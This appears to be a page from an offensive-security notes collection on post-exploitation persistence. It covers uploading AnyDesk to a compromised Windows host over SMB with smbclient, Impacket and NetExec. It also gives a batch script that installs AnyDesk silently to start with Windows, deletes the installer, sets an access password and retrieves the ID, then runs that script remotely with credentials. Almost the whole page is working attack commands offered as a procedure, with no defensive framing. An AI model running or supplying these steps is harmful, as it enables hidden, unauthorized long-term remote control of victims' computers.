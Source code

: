 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - third-party-tools
  - staying-off-the-land
  - windows
---
```

# Unix Shell

## 01 - Upload AnyDesk

### 1.1 - Samba Suite Utils

```
smb: \> put anydesk.exe /Users/<username>/AppData/Local/Temp/anydesk.exe
```

### 1.2 - Impacket

```
# use C$

# cd Users/<username>/AppData/Local/Temp

# put anydesk.exe
```

### 1.3 - NetExec

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] --put-file anydesk.exe \\Users\\<username>\\AppData\\Local\\Temp\\anydesk.exe
```

## 02 - Install AnyDesk

```
$ cat anydesk.bat
md %LOCALAPPDATA%\AnyDesk
%LOCALAPPDATA%\Temp\anydesk.exe --start-with-win --slient --install %LOCALAPPDATA%\AnyDesk
del %LOCALAPPDATA%\Temp\anydesk.exe
echo <password> | %LOCALAPPDATA%\AnyDesk\AnyDesk.exe --set-password
for /f "delims=" %i in ('%appdata%\AppData\Local\AnyDesk\AnyDesk.exe --get-id') do echo %i

$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] -x anydesk.bat
```

---
## References

### Backlinks

- [[03 - Malware Development/Techniques/Maintaining Access/Persistence/Windows/Remote Monitoring and Management/AnyDesk]]